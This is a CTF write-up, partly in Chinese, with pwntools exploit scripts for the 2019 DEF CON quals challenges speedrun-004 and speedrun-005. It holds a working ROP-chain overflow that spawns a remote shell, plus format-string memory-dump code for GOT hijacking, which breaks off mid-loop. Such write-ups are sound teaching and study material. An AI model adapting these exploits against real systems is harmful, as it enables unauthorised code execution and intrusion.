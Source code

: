 * bof
```python
from pwn import *
ret=0x0000000000400416
rdi=0x0000000000400686
rsi=0x0000000000410a93
rdx=0x000000000044a155
sys=0x0000000000474f15
bss=0x006b6000+0x800
rax=0x0000000000415f04
read=0x00000000044A140
#context.log_level='debug'
context.arch='amd64'
p=remote("speedrun-004.quals2019.oooverflow.io",31337)
#p=process('./speedrun-004')
#gdb.attach(p,'b *0x000000000400BD1')
p.sendlineafter("?\n",str(0x101))

pay=p64(ret)*15+p64(rdi)+p64(bss-0x800)+p64(rsi)+p64(0x1000)+p64(rdx)+p64(7)+p64(rax)+p64(0xa)+p64(sys)
pay+=p64(rdi)+p64(0)+p64(rsi)+p64(bss)+p64(rdx)+p64(0x40)+p64(read)+p64(bss)
pay+="\x30"
p.sendafter("?\n",pay)
p.sendline(asm(shellcraft.sh()))
p.interactive()
```
# speedrun-005
这题的形式没见过讲一下...
题目本身是挺简单的的主要是存在`fmtstr`漏洞又没有开`pie`和只开了`partial relro`所以我们可以通过`got hijacking`来控制执行流.

主要的特点是发现远端的`binary`和本地的不同所以得先利用`printf`来`dump`确定一些`gadget`的地址
于是我写了一些函数用来`dump`内存和确定指定`gadget`的地址
```python
from pwn import *
context.log_level='debug'
def cal(a,b):
	if (a-b)>0:
		return a-b
	else:
		return a-b+0x10000
def seek(seek,l=0):
	while(1):
		seek=seek+l
		p=remote("speedrun-005.quals2019.oooverflow.io",31337)
		#gdb.attach(p)
		pay="%{}$s".format(38).ljust(0x100,'\x00')+p64(seek)
		p.sendlineafter("? ",pay)
		p.readuntil("ing ")
		data=p.readline()
		l=len(data)
		if "\x5f\xc3" in data:
			raw_input()
		p.close()
def preciser(seek):
	while(1):
		seek=seek+1
		p=remote("speedrun-005.quals2019.oooverflow.io",31337)
		#gdb.attach(p)
		pay="%{}$s".format(38).ljust(0x100,'\x00')+p64(seek)
		p.sendlineafter("? ",pay)
		p.readuntil("ing ")
		data=p.readline()
		if not "\x5f\xc3" in data:
```